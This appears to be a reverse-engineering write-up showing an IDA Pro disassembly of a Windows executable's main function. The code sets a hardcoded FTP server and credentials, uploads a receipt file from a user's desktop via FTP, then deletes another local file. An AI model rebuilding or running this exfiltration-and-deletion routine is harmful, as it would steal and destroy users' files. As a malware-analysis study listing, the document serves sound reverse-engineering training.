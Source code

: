 # _main Function

The `_main` function code of the Windows executable being reversed-engineered, as shown in IDA Pro:
    
    .text:00401220 ; ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦ S U B R O U T I N E ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦
    .text:00401220
    .text:00401220 ; Attributes: bp-based frame
    .text:00401220
    .text:00401220 ; int __cdecl main(int argc,const char **argv,const char *envp)
    .text:00401220 proc            _main near              ; CODE XREF: ___tmainCRTStartup+15Ap
    .text:00401220
    .text:00401220 argc            = dword ptr  8
    .text:00401220 argv            = dword ptr  0Ch
    .text:00401220 envp            = dword ptr  10h
    .text:00401220
    .text:00401220                 push    ebp
    .text:00401221                 mov     ebp, esp
    .text:00401223                 push    offset szServerName ; ftp.ucd.ie
    .text:00401228                 push    offset unk_40A000
    .text:0040122D                 call    sub_401000
    .text:00401232                 add     esp, 8
    .text:00401235                 push    offset szUserName ; ahmed@ucd.ie
    .text:0040123A                 push    offset unk_40A100
    .text:0040123F                 call    sub_401000
    .text:00401244                 add     esp, 8
    .text:00401247                 push    offset szPassword ; $ecret123
    .text:0040124C                 push    offset unk_40A200
    .text:00401251                 call    sub_401000
    .text:00401256                 add     esp, 8
    .text:00401259                 push    offset szLocalFile ; C:\Users\Derbhle\Desktop\receiptPetrov_9316.pdf
    .text:0040125E                 push    offset unk_40A308
    .text:00401263                 call    sub_401000
    .text:00401268                 add     esp, 8
    .text:0040126B                 push    offset FileName ; C:\Users\Derbhle\Desktop\receipt_Nikolaus218.rtf
    .text:00401270                 push    offset unk_40A408
    .text:00401275                 call    sub_401000
    .text:0040127A                 add     esp, 8
    .text:0040127D                 push    offset unk_40BDC0 ; C:\Users\Derbhle\Desktop\accounts_Nikolaus_5923.rtf
    .text:00401282                 push    offset unk_40A508
    .text:00401287                 call    sub_401000
    .text:0040128C                 add     esp, 8
    .text:0040128F                 push    offset szRemoteFile ; 2520.exe
    .text:00401294                 push    offset unk_40A608
    .text:00401299                 call    sub_401000
    .text:0040129E                 add     esp, 8
    .text:004012A1                 push    offset szLocalFile ; lpszLocalFile - C:\Users\Derbhle\Desktop\receiptPetrov_9316.pdf
    .text:004012A6                 call    sub_401160 // use ftp to put up file
    .text:004012AB                 add     esp, 4
    .text:004012AE                 push    offset FileName ; lpFileName - C:\Users\Derbhle\Desktop\receipt_Nikolaus218.rtf
    .text:004012B3                 call    [ds:DeleteFileW]
    .text:004012B9                 call    sub_401080
    .text:004012BE                 xor     eax, eax
    .text:004012C0                 pop     ebp
    .text:004012C1                 retn
    .text:004012C1 endp            _main
    .text:004012C1
    .text:004012C1 ; ---------------------------------------------------------------------------